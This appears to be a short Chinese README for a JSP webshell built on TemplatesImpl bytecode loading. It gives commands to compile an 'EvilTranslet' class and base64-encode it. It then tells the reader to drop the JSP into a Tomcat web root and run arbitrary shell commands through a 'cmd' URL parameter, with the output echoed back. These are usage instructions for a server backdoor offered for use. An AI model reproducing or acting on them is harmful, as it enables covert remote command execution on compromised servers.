 ### 利用TemplatesImpl触发的JSP Webshell

编译字节码:
```
javac EvilTranslet.java

cat EvilTranslet.class|base64
```

使用：
```
ps:若要修改字节码逻辑，修改后按照上面编译字节码的方式得到base64字节码替换jsp文件中的base64字节码

1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问11.jsp，并使用参数cmd传入需要远程执行的命令，例：http://127.0.0.1:8080/11.jsp?cmd=whoami

3.服务器将会执行相应的shell命令，最后回显
```